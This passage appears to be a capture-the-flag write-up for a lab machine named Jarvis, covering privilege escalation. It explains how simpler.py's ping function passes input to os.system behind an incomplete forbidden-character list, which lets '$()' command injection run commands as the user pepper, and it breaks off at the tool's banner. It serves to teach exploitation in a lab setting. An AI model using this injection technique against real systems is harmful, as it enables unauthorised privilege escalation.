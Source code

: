 	<div style="width:100%;height:0px;position:relative;padding-bottom:101.124%;"><iframe src="https://streamable.com/e/9qmdkh" frameborder="0" width="100%" height="100%" allowfullscreen style="width:100%;height:100%;position:absolute;left:0px;top:0px;overflow:hidden;"></iframe></div>


# Privilege Escalation


## Pepper - Enumeration
1. Check `www-data` sudo access
	```
	www-data@jarvis:/var/www/html$ sudo -l
	Matching Defaults entries for www-data on jarvis:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
	
	User www-data may run the following commands on jarvis:
	    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
	www-data@jarvis:/var/www/html$ 
	```
	- `simpler.py`
2. View `simpler.py` 
	![]({{ page.img_path }}Pasted%20image%2020220915045641.png)
>Cropped to show vulnerable portion



## Pepper - What is simpler.py doing?
1. `simpler.py` has 3 functions
	1. To display number of attackers, derived from counting the number of files in `/home/pepper/web/Logs/` directory.
	3. To display IP Address of attackers, derived from reading files in `/home/pepper/web/Logs` directory.
	4. Ping any IP Address 

## Pepper - Exploiting simpler.py
1. Why is `simpler.py`, specifically `exec_ping()` function vulnerable?
	1. After skimming through the files, `exec_ping()` function stood out because it is using `os_system` to execute commands.
	2. There is an input sanitization function in place, however it is insufficient.
		- `forbidden = ['&', ';', '-', 'backticks', '||', '|']`
2. How do we exploit `simpler.py`?
	1. We have to first choose the `ping` function by specifying `-p`, this will bring us to the `exec_ping()` function.
	2. We are able do command injection w/ `$(Payload)`, since `()`, `$` and `/` is not in array of forbidden characters.
3. Exploiting `simpler.py`
	1. Create `/tmp/pepperbash` by copying `/bin/bash`
		```
		www-data@jarvis:/var/www/html$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
		***********************************************
		     _                 _                       
		 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
		/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
		\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
		|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
		                |_|               |_|    |___/ 
		                                @ironhackers.es
		                                